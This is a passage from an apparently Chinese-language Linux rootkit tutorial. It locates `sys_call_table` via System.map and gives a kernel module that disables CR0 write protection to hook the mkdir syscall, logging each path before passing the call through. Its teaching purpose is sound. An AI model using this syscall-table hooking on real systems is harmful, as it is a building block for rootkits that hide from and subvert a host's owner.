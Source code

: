 #### 一　借助 /boot/System.map

这种方法非常易于操作。我们先看结果再深入介绍`System.map`。

通过查询`System.map`获取`sys_call_table`地址：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-37.png)

可以看到这里用`sys_call_table`和`ia32_sys_call_table`两个表。第一个是 64 位系统本身的系统调用表，第二个表是为了兼容 32 位程序通过`int 0x80`方式做系统调用而存在的。为避免一下子讲解过多背景知识，我将采取“知识屏蔽”方法，这里先关注`sys_call_table`，即 64 位系统调用表。

找到了地址，下面就是编码了：

{% highlight c %}
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/types.h>
#include <linux/sched.h>
#include <linux/kallsyms.h>
#include <asm/cacheflush.h>
#include <asm/page.h>
#include <asm/current.h>

#define SYS_CALL_TABLE  0xffffffff816001a0

unsigned long *real_sys_call_table = (unsigned long *)SYS_CALL_TABLE;

asmlinkage long (*real_mkdir)(const char __user *pathname, umode_t mode);

asmlinkage long fake_mkdir(const char __user *pathname, umode_t mode)
{
    printk("br: mkdir-%s\n", pathname);

    return (*real_mkdir)(pathname, mode);
}

static int lkm_init(void)
{
    write_cr0(read_cr0() & (~0x10000));
    real_mkdir = (void *)real_sys_call_table[__NR_mkdir];
    real_sys_call_table[__NR_mkdir] = (unsigned long)fake_mkdir;
    write_cr0(read_cr0() | 0x10000);

    printk("bt: module loaded\n");

    return 0;
}

static void lkm_exit(void)
{
    write_cr0(read_cr0() & (~0x10000));
    real_sys_call_table[__NR_mkdir] = (unsigned long)real_mkdir;
    write_cr0(read_cr0() | 0x10000);

    printk("bt: module removed\n");
}
{% endhighlight %}
